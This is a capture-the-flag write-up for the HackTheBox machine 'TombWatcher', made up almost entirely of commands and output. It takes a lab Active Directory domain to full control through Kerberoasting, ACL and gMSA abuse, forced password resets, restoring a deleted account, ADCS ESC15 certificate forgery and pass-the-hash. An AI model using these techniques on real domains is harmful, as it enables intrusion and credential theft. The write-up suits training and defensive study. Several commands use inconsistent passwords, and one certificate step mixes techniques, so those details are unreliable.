

# Tomb Watcher

Difficulty: Medium
OS: Windows
Category: Red Team


### Pre-Engagement

> As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: **henry / H3nry_987TGV!**
> 

### Scanning

```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-09 04:04:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-09T04:05:32+00:00; -1h29m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2025-06-09T04:05:32+00:00; -1h29m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-09T04:05:32+00:00; -1h29m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2025-06-09T04:05:32+00:00; -1h29m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1h29m00s, deviation: 1s, median: -1h29m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-09T04:04:54
|_  start_date: N/A
```

### Enumeration & Foothold

Do a Bloodhound enumeration with the user `henry` this will allow us to map everything in the *Domain Controller*

```bash
bloodhound-python -dc DC01.tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' -d tombwatcher.htb -c all --zip -ns 10.10.11.72 --dns-timeout 30
```

The **First Degree Object Control** for the user `henry` has a `WriteSPN` privilege to the user `Alfred` . Get the *UserSPN* of Alfred, then crack the krb5tgs with hashcat and rockyou



```bash
GetUserSPNs.py tombwatcher.htb/henry:'H3nry_987TGV!' -dc-ip 10.10.11.72 -request

[-] CCache file is not found. Skipping...
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*...
<SNIP>

hashcat -m 13100 alfred-hash rockyou.txt
# alfred:basketball
```

Now that you have the password of `Alfred` look in the bloodhound again. As we can see that the user Alfred can add himself on the group of `Infrastructure@tombwatcher.htb` use BloodyAD to add the user Alfred to the group.


```bash
# Add Alfred to Infrastructure
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u alfred -p basketball add groupMember Infrastructure alfred

# Verify
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u alfred -p basketball get object alfred --attr memberOf    

distinguishedName: CN=Alfred,CN=Users,DC=tombwatcher,DC=htb
memberOf: CN=Infrastructure,CN=Users,DC=tombwatcher,DC=htb
```

Now looking back again at bloodhound. We’ll notice that `Infrastructure` has **ReadGMSAPassword** privilege to `ANSIBLE_DEV$` Read the password of the user *ANSIBLE* using *Alfred*.


```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u alfred -p basketball get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword

distinguishedName: CN=ansible_dev,CN=Managed Service Accounts,DC=tombwatcher,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:1c37d00093dc2a5f25176bf2d474afdc
msDS-ManagedPassword.B64ENCODED: IIwfpSnxGqOGf+d99xuIBTCl3yqtm6fvywv4pBqe5PN9jsYcLAWn3x1doYf9ZzjBXGB3XoRzPFNwtajDOG304xGmN2CJ4G+5QsLACGGVvu3ZoG4aosUdfpEGuWyYqSyKggtxHtssw1lWLbrZayfWqascdDtBvuaszTpJgmDnLykE6QP+BmmngEkfETLuZ+hH0pP896TujqasQXFyOBkqwVtvXe1Lx9szud4//XTPoejE0KBihHGhzmbQ8pGH9QR9zl21XsohXJA2dd9QAUwgGpCssBhbOPtAalPoaOYDlBE4wrFZNnrYpADsIeYVO/HmXVnGO1e/9XRjcSCEZaHvTw==
```

We’ll go back to Bloodhound and see the enumeration result. We now have the NTLM hash for *ANSIBLE*, which is `:1c37d00093dc2a5f25176bf2d474afdc`. We’ll notice that the user *ANSIBLE* can force change password for the user `sam`. So in order to gain access for the user sam, let’s try to change its password.

```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u ansible_dev$ -p :1c37d00093dc2a5f25176bf2d474afdc set password 'SAM' 'Password123!'
```

 That’s it we now have the user `sam`. Now looking back again at Bloodhound, we’ll find that *sam* has `WriteOwner` privilege to the user `John`. So we’ll change the ownership.


```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u sam -p 'Password123!' set owner john sam                                           
```

Then grant full access control

```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u sam -p 'Password123!' add genericAll john sam
```

Now that we have full access, change the password for the user `John`

```bash
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u sam -p 'Password123!' set password john 'Password123!'
```

Remote to Domain then get the `user` flag

```bash
evil-winrm -i dc01.tombwatcher.htb -u John -p 'Password123!'
```

### Root

Upon looking at Bloodhound, we’ll notice that the user *John* has a GenericAll privilege directly to `ADCS`. However, *ADCS* is an Organizational Unit so we need to abuse this privilege and modify the DACL for John on ADCS.


```bash
impacket-dacledit -action write -rights FullControl -inheritance -principal
'john' -target-dn 'OU=ADCS,DC=tombwatcher,DC=htb'
'tombwatcher.htb'/'john':'NewPassword123!' -dc-ip 10.10.11.72
```

This allows the user **John** full control permissions on the **ADCS OU** and all its child objects by modifying the ACL (Access Control Unit) on that OU.

The problem is, **John** is not a part of the **ADCS** **OU** so we need to find a user that will allow us to do so.

### THE CLUE

Some people said that **The title of the machine** gave the clue away, so their instinct is to check the recycle bin to check for deleted things/users. Others said that **there is an SID that is failed to lookup** which is

```bash
certipy-ad find -u john -p 'Winter2025' -target 10.10.11.72 -dc-ip 10.10.11.72

[!] Failed to lookup object with SID 'S-1-5-21-1392491010-1358638721-2126982587-1111'
```

So after modifying the DACL for the user **John** to **ADCS**. Let’s find some deleted users at `Recycle Bin`

```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties objectSid, lastKnownParent, ObjectGUID | Select-Object Name, objectGUID, objectSid, lastKnownParent | Format-List

Restore a user from this list
Name            : cert_admin
                  DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
objectGUID      : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1109
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb

Name            : cert_admin
                  DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
objectGUID      : c1f1f0fe-df9c-494c-bf05-0679e181b358
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1110
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb

Name            : cert_admin
                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectGUID      : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1111
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb
```

We found 3 users, I chose the 3rd user and restored this account.

```powershell
Restore-ADObject -Identity '938182c3-bf0b-410a-9aaa-45c8e1a02ebf'
```

Change its password

```powershell
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```

Then enable the account

```powershell
Enable-ADAccount -Identity cert_admin
```

### Privilege Escalation

Now that the user `cert_admin` is enabled and accessible. Let’s elevate our privilege by looking for vulnerable templates using `certipy` **NOTE: Make sure certipy is in latest version**

```bash
certipy find -u 'cert_admin' -p 'Password@123!' -dc-ip 10.10.11.72 -
vulnerable -stdout
```

We will find out that the vulnerable template is ESC15, it’s a WebServer template vulnerability.


We’ll get the `administrator.pfx` with the following by requesting a certificate and forge it to impersonate **administrator**.

> **ESC15 = Arbitrary SAN Injection + Enroll Rights**
> 

The user `cert_admin` doesn’t need `CertificateTemplate:FullControl` or `WriteDacl` we’ll just **Enroll** permission on a template, and a **CA that honors SANs in requests.**

```powershell
certipy req -dc-ip 10.10.11.72 -ca 'tombwatcher-CA-1' -target-ip 10.10.11.72 -u cert_admin@tombwatcher.htb -p 'Password123!' -template WebServer -upn administrator@tombwatcher.htb -application-policies 'Client Authentication'
```

Request for the `administrator.pfx`

```bash
certipy req -u 'cert_admin@tombwatcher.htb' -p 'Password123!' -on-behalf-of TOMBWATCHER\\Administrator -template User -ca tombwatcher-CA-1 -pfx cert_admin.pfx -dc-ip 10.10.11.72
```

Get the Hash using `administrator.pfx`

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```

Authenticate to machine

```bash
evil-winrm -i dc01.tombwatcher.htb -u Administrator -H '026fe56a968066fake2bf6hehe2947a15b'
```

**ALTERNATIVELY**

After requesting for a certificate from the command above, we can authenticate to the **LDAP**

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```

Then change the password for the administrator

```bash
change_password Administrator Password123!
```

Then Authenticate to machine

```bash
evil-winrm -i dc01.tombwatcher.htb -u Administrator -p Password123!
```

After authenticating to machine, get the `root` flag.